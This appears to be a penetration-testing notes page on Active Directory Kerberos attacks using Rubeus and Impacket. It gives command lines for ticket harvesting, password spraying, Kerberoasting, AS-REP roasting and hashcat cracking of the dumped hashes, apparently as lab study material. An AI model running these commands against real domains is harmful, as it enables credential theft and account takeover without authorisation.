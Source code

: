 # Rubeus

> Rubeus include many tools and attacks include overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and Kerberoasting, etc.

{% embed url="https://github.com/GhostPack/Rubeus" %}

## Harvesting Tickets

_For pass the ticket attack_

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe harvest /interval:30` - This command tells Rubeus to harvest for TGTs every 30 seconds

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt="" width="563"><figcaption></figcaption></figure>

## Brute-Forcing / Password-Spraying

In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.

This attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.

Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command:

`echo MACHINE_IP CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe brute /password:Password1 /noticket` - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt="" width="523"><figcaption></figcaption></figure>

## Kerberoasting

### Rubeus

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users

copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat

`hashcat -m 13100 -a 0 hash.txt wordlist.txt` - now crack that hash

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt="" width="563"><figcaption></figcaption></figure>

### Impacket

**Impacket Installation**

`cd /opt` navigate to your preferred directory to save tools in

download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19

`cd Impacket-0.9.19` navigate to the impacket directory

`pip install .` - this will install all needed dependencies

**Kerberoasting w/ Impacket**

`cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located

`sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

`hashcat -m 13100 -a 0 hash.txt wordlist.txt` - now crack that hash

## AS-REP Roasting

AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

### Dumping KRBASREP5 hashes

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe asreproast` - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

Crack hash with hashcat
